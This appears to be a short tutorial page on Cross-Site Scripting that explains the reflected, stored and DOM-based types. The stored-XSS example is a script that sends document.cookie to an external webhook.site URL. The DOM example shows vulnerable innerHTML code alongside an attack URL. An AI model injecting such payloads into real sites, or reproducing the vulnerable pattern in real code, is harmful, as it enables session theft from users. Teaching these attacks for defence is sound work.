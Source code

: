 # Cross-Site Scripting (XSS)

 Cross-Site Scripting is injecting malicious javascript into web pages to steal cookies or session tokens of the other user. The attacker uploads a malicious javascript in web application (example post malicious javascript in comments) which run in the another user browser when they visit the application 

**Types of Cross-Site Scripting**

- Reflected XSS
- Stored XSS 
- DOM-based XSS 

## Reflected XSS

Reflected XSS where we have some inputs, and can send the payload in our HTTP request, and our input reflected in the response back to us. But if we were refresh the page, or if somebody else was to visit that page, they wouldn't see our payload. This somewhat limits the scope of the attack, but is still worth looking out 

**Example Payload** 

```
<script>alert("Reflected XSS")</script>
```

## Stored XSS 

It stores the payload somewhere like in database and executed when other uses visits it. For example when we leave payload on a comment in a product page whenever another user loads the page they can tigger our payload and can malicious script are executed in their browser used for stealing cookies, etc 

**Example Payload**

```
<script>
fetch("https://webhook.site/web_hook_id?c=" + document.cookie);
</script>
```

## DOM-based XSS

The payload doesn't go to the server, it's only processed locally, and therefore, can't be filtered server-side

**Example**

```
// Vulnerable code 
var name = location.hash.substring(1);
document.getElementById("welcome").innerHTML = "Hello " + name;

// attacker payload 
http://victim.com/#<script>alert('DOM XSS')</script>
```

## Resources

- [hacktricks - xss](https://book.hacktricks.wiki/en/pentesting-web/xss-cross-site-scripting/index.html)
- [payloads all the things - xss](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection)

